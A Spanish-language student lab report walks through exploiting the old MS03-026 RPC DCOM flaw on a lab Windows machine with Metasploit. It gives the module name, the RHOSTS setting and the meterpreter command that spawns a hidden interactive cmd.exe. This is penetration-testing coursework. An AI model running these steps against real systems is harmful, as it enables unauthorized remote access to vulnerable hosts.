

# Exploit (Práctica 6)

> Ibai Guillén Pacho
> 

> Ing. Informática + TDE
> 

# Objetivo de la práctica

Lanzar un exploit que se ejecute en la máquina Windows y que haga uso de la vulnerabilidad Microsoft Windows XP/2000 - 'RPC DCOM' Remote (MS03-026)

# Herramientas

### Metasploit Framework

Metasploit Framework, una herramienta para desarrollar y ejecutar exploits contra una máquina remota.

[Metasploit | Penetration Testing Software, Pen Testing Security | Metasploit](https://www.metasploit.com/)

# Ataque

## Búsqueda del exploit

Metasploit permite buscar mediante su consola de comandos algunos exploits, para realizar esta búsqueda basta con utilizar el comando:

```bash
search <Nombre del exploit>
```




Como se puede ver existen muchos exploits aparentemente compatibles con la máquina de la víctima.  Si se quiere elegir uno de estos primero habrá que mirar si se encuentra en la lista, en este caso.

<aside>
ℹ️ Si se realiza una búsqueda más concreta se limitarán los resultados y podremos ver el nombre del exploit.

</aside>


## Selección del exploit

Para seleccionar un exploit tendremos que saber su nombre, si lo hemos buscado con el paso previo sería tan sencillo como copiar y pegar el nombre en el siguiente comando:

```bash
use exploit/windows/dcerpc/ms03_026_dcom
```


## Configuración del exploit

Para saber que parametros necesita el exploit necesitaremos verlos con el comando:

```bash
show options
```


Para configurar los parámetros se tendrá que utilizar el comando:

```bash
set <option> <value>
```

Es decir, en este caso sería de la siguiente forma:

```bash
set RHOSTS 192.168.145.130
```


Se podría confirmar los cambios con el mismo comando que se usa para saber los parámetros que necesita el exploit, es decir, con `show options`.


## Ejecución

Para lanzar el exploit configurado habría que ejecutar el comando: `run`. El resultado de este ataque sería el siguiente:


La consola de meterpreter nos permite realizar muchas cosas, pero como el objetivo de esta práctica es la de conseguir una consola de comandos de windows se deberá ejecutar el siguiente comando en meterpreter.

```bash
execute -f cmd.exe -i -H
```


Mediante el comando `set` podemos ver datos del dispositivo:


# Otros ataques

El framework de metasploit contiene un muchas más funcionalidades de las que se muestran en esta práctica. Si se está interesado en algún tipo de ataque más actual dejo el enlace a mi práctica de ciberseguridad, donde exploto una vulnerabilidad de una aplicación para windows 10:

[LTE-Hacking-IbaiGuillénPacho](https://www.notion.so/LTE-Hacking-IbaiGuill-nPacho-ae4dc37037854eff9cbbd4bca2adf053)

Si se quiere ver este ataque en video dejo el enlace al video de muestra:

[LTE-Hacking-IbaiGuillénPacho](https://www.youtube.com/watch?v=1YGCfnw5nRc&feature=youtu.be)

# Documentación

Documentación trabajada en Notion, link al formato original:

[Exploit (Práctica 6)](https://www.notion.so/Exploit-Pr-ctica-6-dca374ff492947809d4e430fa1355c71)
